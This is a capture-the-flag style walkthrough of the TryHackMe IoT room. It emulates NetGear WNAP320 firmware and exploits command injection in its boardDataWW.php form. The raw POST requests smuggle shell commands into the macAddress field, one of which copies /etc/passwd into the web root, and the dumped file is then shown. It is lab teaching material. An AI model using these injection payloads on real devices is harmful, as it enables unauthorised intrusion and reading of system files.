




# IoT

# Platform: TryHackMe

```bash
https://tryhackme.com/room/iotintro
```

## SSH Connection establish

```bash
ssh iot@10.146.189.44
```

## Firmware zip archive to unzip

```bash
unzip WNAP320 Firmware version 2.3.0.zip
```

## TAR to file

```bash
tar -xf ****.tar
```

## Elevate your shell and copy rootfs.squashfs to firmware-analysis-toolkit folder and change the owner of the file to root.

```jsx
https://github.com/firmadyne/firmadyne
```

```bash
sudo -s
```



## Now, let's kick off fat (firmware analysis toolkit) and emulate the system.

```bash
./fat.py rootfs.squashfs
```



Take note to the IP that is outputted (usually is 192.168.0.100) and press enter to continue the emulation.

## Create a port forward  (the attacker machine)

```bash
┌──(kali㉿kali)-[~]
└─$ sudo ssh -N iot@10.146.189.44 -L 8081:192.168.0.100:80
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
iot@10.146.189.44's password: 
```

Now, if you access

http[://localhost:8081](http://localhost:8081/) you should be able to access the web application (it's a NetGear AP).

The default credentials are **admin (as the username) and password (as the password)**.

Once logged in, change the url to [http://localhost:8081/boardDataWW.php](http://localhost:8081/boardDataWW.php)
 In the MAC Address field add some junk data, for example I added 
112233445566, submit it, intercept it using BurpSuite and forward it to 
the Repeater.





## First Request

```bash
POST /boardDataWW.php HTTP/1.1
Host: localhost:8081
Content-Length: 74
Cache-Control: max-age=0
sec-ch-ua: "Not-A.Brand";v="24", "Chromium";v="146"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: http://localhost:8081
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8081/boardDataWW.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

macAddress=111111111111;+ping+-c+15+127.0.0.1+#&reginfo=0&writeData=Submit
```

## Second Request

```bash
POST /boardDataWW.php HTTP/1.1
Host: localhost:8081
Content-Length: 70
Cache-Control: max-age=0
sec-ch-ua: "Not-A.Brand";v="24", "Chromium";v="146"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: http://localhost:8081
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8081/boardDataWW.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

macAddress=112233445566;+cp+/etc/passwd+.+#&reginfo=0&writeData=Submit
```

## Request curl for passwd

```bash
┌──(kali㉿kali)-[~]
└─$ curl http://localhost:8081/passwd         
root:x:0:0:root:/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:100:sync:/bin:/bin/sync
mail:x:8:8:mail:/var/spool/mail:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
operator:x:37:37:Operator:/var:/bin/sh
haldaemon:x:68:68:hald:/:/bin/sh
dbus:x:81:81:dbus:/var/run/dbus:/bin/sh
nobody:x:99:99:nobody:/home:/bin/sh
sshd:x:103:99:Operator:/var:/bin/sh
admin:x:0:0:Default non-root user:/home/cli/menu:/usr/sbin/cli
                                                                  
```

